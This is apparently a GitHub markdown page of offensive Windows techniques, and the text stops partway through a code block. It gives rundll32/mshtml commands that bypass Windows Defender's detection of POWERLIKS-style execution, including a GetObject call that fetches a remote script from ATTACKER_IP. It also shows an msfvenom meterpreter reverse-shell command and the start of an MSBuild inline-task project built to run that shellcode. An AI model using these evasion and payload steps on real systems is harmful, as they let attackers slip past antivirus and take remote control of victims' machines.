 # VirusTotal and YARA Detection 
<img width="583" alt="Screen Shot 2021-12-03 at 5 22 12 PM" src="https://user-images.githubusercontent.com/72598486/144680778-e92bd81b-7a97-4559-a564-44ba0217cd0f.png">

Source: ```https://sansorg.egnyte.com/dl/Kj3fXQlZ6x```

# Windows Defender Detection Bypass

Currently, Windows Defender detects and prevents TrojanWin32Powessere.G aka "POWERLIKS" type execution that leverages rundll32.exe. Attempts at execution fail
and attackers will get an "Access is denied" error message. However, it can be easily bypassed by passing an extra path traversal when referencing mshtml.

```cmd
C:\>rundll32.exe javascript:"\..\..\mshtml,RunHTMLApplication ";alert(1)
Access is denied.
```

Pass an extra "..\" to the path.

```C:\>rundll32.exe javascript:"\..\..\..\mshtml,RunHTMLApplication ";alert(666)```

Windows Defender also detects based on the following javascript call using GetObject("script:http://ATTACKER_IP/hi.tmp").
However, that interference can be bypassed by using concatenation when constructing the URL scheme portion of the payload.

```cmd
C:\>rundll32.exe javascript:"\..\..\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://ATTACKER_IP/hi.tmp")
Access is denied.
```

# Living Off the Land with MSBuild:

MSBuild.exe is a built-in Windows tool for building and executing C/C++/C# code.

```bash
user@kali $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.55 LPORT=443 -f csharp > WindowsHelper.cs
```

Insert shellcode into line 46 and output as .csproj file:

```C#
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
         <!-- This inline task executes shellcode. -->
         <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
         <!-- Save This File And Execute The Above Command -->
         <!-- Author: Casey Smith, Twitter: @subTee -->
         <!-- License: BSD 3-Clause -->
	  <Target Name="Hello">
	    <ClassExample />
	  </Target>
	  <UsingTask
	    TaskName="ClassExample"
	    TaskFactory="CodeTaskFactory"
	    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
	    <Task>
	    
	      <Code Type="Class" Language="cs">
	      <![CDATA[
		using System;
		using System.Runtime.InteropServices;
		using Microsoft.Build.Framework;
```